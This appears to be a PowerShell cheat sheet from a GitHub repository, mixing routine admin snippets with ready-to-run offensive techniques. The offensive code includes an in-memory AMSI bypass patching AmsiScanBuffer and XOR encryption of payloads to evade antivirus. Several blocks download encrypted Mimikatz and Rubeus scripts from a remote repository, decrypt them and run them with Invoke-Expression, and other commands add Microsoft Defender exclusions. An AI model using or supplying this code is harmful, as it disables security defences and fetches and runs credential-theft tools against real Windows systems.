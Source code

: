 # Table of Contents
- [Enable support of TLS 1.2](#enable-support-of-tls-12)
- [Download a script from an HTTP server](#download-a-script-from-an-http-server)
- [Test on open/close port](#test-on-openclose-port)
- [Patching amsi.dll AmsiScanBuffer by rasta-mouse](#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
- [Payload encryption/decryption](#payload-encryptiondecryption)
  * [Encryption (not secure)](#encryption-not-secure)
  * [Decryption](#decryption)
- [How to grep in PowerShell](#how-to-grep-in-powershell)

# Enable support of TLS 1.2
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```

## Use a data structure for frequently used options
```powershell
$Parameters = @{
	"Port" = "389"
	"InformationLevel" = "Detailed"
	"ComputerName" = "localhost"
}
Test-NetConnection @Parameters
```

- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Encryption (cryptographically insecure)
```powershell
$FileIn = "C:\Windows\System32\calc.exe"
$FileOut = "C:\calc.exe.encrypted"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

[io.file]::WriteAllBytes($FileOut,$Bytes)
```
## Decryption
```powershell
$FileIn = "C:\calc.exe.encrypted"
$FileOut = "C:\calc.exe"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

[io.file]::WriteAllBytes($FileOut,$Bytes)
```

### Decrypt and invoke Invoke-Rubeus.ps1 in PowerShell
```powershell
$Bytes = (New-Object Net.WebClient).DownloadData('https://github.com/okazymyrov/piki/blob/master/Invoke-Rubeus.ps1.encrypted?raw=true')
$Seed = 42 # seed between 0 and 2147483647

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

### Decrypt and invoke Invoke-Mimikatz.ps1 in PowerShell
```powershell
$Bytes = (New-Object Net.WebClient).DownloadData('https://github.com/okazymyrov/piki/blob/master/Invoke-Mimikatz.ps1.encrypted?raw=true')
$Seed = 42 # seed between 0 and 2147483647

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

### Decrypt and invoke Invoke-Mimikatz.ps1 from the disk
```powershell
$FileIn = "C:\Users\Administrator\Downloads\Invoke-Mimikatz.ps1.encrypted"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

# How to grep in PowerShell 

## Log files in the current directory
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)

## All files recursively
```powershell
Get-ChildItem -Recurse | Select-String -Pattern "EMAIL_ADDRESS" -List
```

# Generate 128-bit password
```powershell
New-Guid
```

# Connect to remote computer via WinRM
```powershell
$SecPassword = ConvertTo-SecureString "<password>" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential("<domain.local>\<user>", $SecPassword)
New-PSSession -Credential $Cred -ComputerName <computer>.<domain.local>
```

# Manage Microsoft Defender for Endpoint (require administrative rights)

- [Add-MpPreference](https://learn.microsoft.com/en-us/powershell/module/defender/add-mppreference)

## Get information about current settings
```powershell
powershell -NonInteractive -Command Get-MpPreference
```

## Add exclusions
```powershell
powershell -NonInteractive -Command Add-MpPreference -ExclusionPath "C:\tmp"
powershell -NonInteractive -Command Add-MpPreference -ExclusionProcess "java.exe"
```

